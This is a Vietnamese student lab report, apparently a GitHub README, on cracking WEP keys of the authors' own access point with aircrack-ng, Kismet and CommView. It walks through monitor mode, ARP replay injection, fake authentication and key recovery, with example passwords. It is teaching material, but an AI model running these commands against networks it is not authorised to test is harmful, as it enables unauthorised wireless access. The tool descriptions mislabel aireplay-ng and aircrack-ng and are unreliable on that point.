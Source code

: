 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: WEP Cracking**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **I. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Máy attacker hệ điêu hành kali 20201b
#### **II. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **III. Mô Hình**
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image001.png)

### **B. Thực hiện**
#### **I. Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```\
Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
```airodump-ng wlan0mon```\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon```\
Bước 5: Bắt các IV được sinh ra từ Access point\
```airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon```\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon```\
Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon```\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```aircrack-ng [tên file capture đã bắt ở trên]```\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image004.png)

Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)

Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
```airodump-ng wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image006.png)

Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image007.png)

Bước 5: Bắt các IV được sinh ra từ Access point\
```airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image008.png)

Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image009.png)

Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image010.png)

Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```aircrack-ng WEPcrack-01.cap```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image011.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image012.png)

* ==> tìm được key : _*KietKhe.@/;\
**Làm tương tự với 3 trường hợp còn lại:**

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image013.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image014.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image015.png)

#### **II. Sử dụng công cụ kismet và aircrack-ng để tìm password**
* Bước 1: Vào file **/etc/kismet/kismet_logging.conf** sửa file:

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/fileCauHinh.png)

* Bước 2: Bật chế độ monitor

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)

* Bước 3: Chạy kismet và một lúc để bắt đủ số lượng gói tin\
```sudo kismet -c wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/Screenshot_2020-06-30_10-34-02.png)

* Bước 4: Chuyển file pcapng thành pcap bằng wireshark ( Mở file pcapng lên bằng wireshark và lưu lại thành file pcap)
* Bước 5: Dùng aircrack-ng để tìm password

![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/ap.png)

![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/PASS.png)

#### **III. Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image016.png)

Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image017.png)

Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image018.png)

Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image019.png)

Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image020.png)

Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image021.png)

Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] 

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image022.png)

==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại**

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image023.png)

